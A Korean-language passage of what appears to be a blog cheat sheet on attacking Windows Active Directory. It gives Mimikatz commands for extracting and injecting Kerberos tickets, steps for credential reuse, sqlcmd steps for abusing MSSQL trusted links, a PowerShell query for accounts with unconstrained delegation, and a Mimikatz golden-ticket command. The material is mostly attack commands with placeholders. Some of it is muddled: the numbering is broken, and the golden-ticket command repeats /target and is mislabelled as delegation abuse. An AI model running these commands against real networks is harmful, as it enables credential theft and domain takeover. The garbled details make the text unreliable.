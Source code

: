 # 티켓 전달

- Mimikatz를 사용하여 Kerberos 티켓을 추출하세요.

<div class="content-ad"></div>

```js
mimikatz.exe "kerberos::list" "kerberos::ptt <ticket.kirbi>" "exit"
```

2. Mimikatz를 사용하여 현재 세션에 티켓을 삽입합니다.

# 자격 증명 재사용

- 다른 서비스 간에 재사용된 자격 증명 식별
- 획득한 자격 증명을 사용하여 다른 서비스에서 인증합니다.

<div class="content-ad"></div>

# MSSQL 남용 및 신뢰할 수 있는 링크

- 네트워크 내 MSSQL 서버 식별

```js
sqlcmd - L;
```

2. 명령 실행 또는 데이터 검색을 위해 신뢰할 수 있는 링크 악용.

<div class="content-ad"></div>

```js
sqlcmd -S <대상_서버> -U <사용자_이름> -P <암호>
```

# 제약이 없는 위임

- 제약이 없는 위임이 설정된 계정을 식별합니다.

```js
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
```

<div class="content-ad"></div>

2. 계정을 위장하여 위임을 남용하십시오.

```js
mimikatz.exe "kerberos::golden /domain:<도메인> /sid:<도메인SID> /target:<대상서비스> /rc4:<서비스계정해시> /user:<대상사용자> /service:<서비스명> /target:<대상FQDN>" "exit"
```

# 제한된 위임

- 위임이 허용된 서비스 식별하기.
